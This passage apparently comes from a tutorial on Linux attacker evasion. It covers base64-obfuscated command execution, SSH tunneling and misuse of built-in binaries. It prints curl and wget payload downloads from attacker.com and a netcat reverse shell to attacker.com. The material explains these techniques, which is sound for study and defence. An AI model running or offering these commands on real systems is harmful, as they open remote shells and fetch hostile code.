     # Decode and execute
    echo "bWFsaWNpb3VzIGNvbW1hbmQK" | base64 --decode | bash

Obfuscating Network Traffic:

    Description: Use encryption or tunneling to disguise network traffic. SSH tunnels, VPNs, and Tor can hide the nature of the traffic.
    Tools:
        stunnel, ssh, OpenVPN.
    Example (Using SSH tunneling):

    bash

        ssh -D 1080 user@remote_host
        # This sets up a SOCKS proxy on port 1080, tunneling traffic through SSH.

B. Living off the Land (LOLBins)

Linux systems come with a wide range of binaries and utilities that can be misused for malicious purposes. By leveraging these binaries, attackers can blend malicious activities into regular operations, making them harder to detect.
Techniques and Tools using LOLBins:

    Using curl and wget:
        Description: curl and wget are command-line tools to download files from the web. Attackers use these tools to fetch payloads or scripts from remote servers.
        Example:

        bash

    curl -O http://attacker.com/payload.sh
    wget http://attacker.com/payload.sh

Using bash and sh:

    Description: These are native shell binaries that can execute scripts. Attackers often use them to run commands or scripts.
    Example:

    bash

    bash -c "command"
    sh -c "command"

Using nc (Netcat):

    Description: nc is a networking utility that reads and writes data across network connections. It can be used for data exfiltration or establishing reverse shells.
    Example (Establishing a reverse shell):

    bash

    nc -e /bin/bash attacker.com 4444

Using crontab:
